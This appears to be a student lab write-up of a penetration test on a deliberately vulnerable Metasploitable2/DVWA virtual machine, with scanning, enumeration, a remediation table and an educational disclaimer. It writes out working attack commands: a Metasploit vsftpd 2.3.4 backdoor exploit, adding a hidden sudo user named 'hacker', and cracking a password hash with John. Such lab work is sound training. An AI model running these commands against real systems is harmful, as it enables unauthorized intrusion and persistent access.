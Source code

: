 # 🛡️ Penetration Testing and Remediation on a Target System

# 🎯 OBJECTIVES -
To conduct a structured penetration test using ethical hacking techniques on a deliberately vulnerable virtual machine. The objective is to simulate a real-world attack scenario and then provide recommendations for remediation.

# 💻 LAB ENVIRONMENT -
|------------------|--------------------------------------|
|Component         |  Details                             |
|------------------|--------------------------------------|
|Attacker Machine  |  Kali Linux (Latest Version)         |
|Target Machine    |  Metasploitable2 / DVWA              |
|Network Type      |  Host-Only or NAT (VMware/VirtualBox)|
|Target IP         |  192.168.56.101 (example)            |
|------------------|--------------------------------------|

# 🚀 TASK PERFORMED –
# 🔍 Task 1: Basic Network Scanning
Purpose: Identify open and potentially vulnerable ports and services.
Command:
nmap -sS -sV -T4 -Pn 192.168.56.101
Expected Output:
PORT    STATE  SERVICE  VERSION
21/tcp  open   ftp      vsftpd 2.3.4
22/tcp  open   ssh      OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
Open Services Analysis:
FTP (21): Unauthenticated access or vulnerable versions.
SSH (22): Brute-force potential.

# 🕵️‍♀️ Task 2: Reconnaissance
Purpose: To identify web-based vulnerabilities and sensitive files.
Command:
nikto -h http://192.168.56.101
Expected Output:
+ Server: Apache/2.2.8 (Ubuntu)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
# 🔐 Hidden Services Example:
phpinfo.php: Often left during development.
/test/ or /backup/ folders may contain credentials or outdated code.
# 🛠️ Extra Tool:
dirb http://192.168.56.101

# 📝 Task 3: Enumeration Summary
Purpose: To gather detailed information about services, users, and shares.
Command (Samba Enumeration):
enum4linux -a 192.168.56.101
Expected Output:
Users: admin, user1, guest
Shares: IPC$, ADMIN$, Public, tmp
Machine Name: METASPLOITABLE

# 💥Task 4: Exploitation of Services
Exploit Example: vsftpd 2.3.4 Backdoor
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
Expected Output:
Backdoor service has been spawned.
Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:6200)

# 👤 Task 5: Creating A Privileged User
Command inside Shell:
useradd -m hacker
echo 'hacker:hacked123' | chpasswd
usermod -aG sudo hacker
Expected Output:
uid=1001(hacker) gid=1001(hacker) groups=1001(hacker),27(sudo)

# 🥷 Task 6: Cracking Password Hash
Command:
Crack Using John:
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Expected Output:
hacked123 (hacker)

# 🔧 Task 7: Remediation And Recommendations
Issue                               Risk                       Recommendation
vsftpd 2.3.4 with backdoor          Remote shell access        Disable FTP or update to latest 
                                                               version
Web server exposes /phpinfo.php     Sensitive info disclosure  Remove or restrict access
Default users found via enum4linux  Easy brute-force           Remove or rename default 
                                                               account 
Weak password found                 Easy to crack              Use strong, complex passwords

# 📚 Conclusion
This project demonstrated a typical penetration testing workflow including scanning, enumeration, exploitation, and remediation planning. The vulnerabilities identified are common in many legacy or misconfigured systems and serve as practical learning examples for both aspiring ethical hackers and defenders.

# ⚠️ Disclaimer
This project is strictly for educational purposes. All activities were conducted in a closed virtual environment with no access to external or live systems.

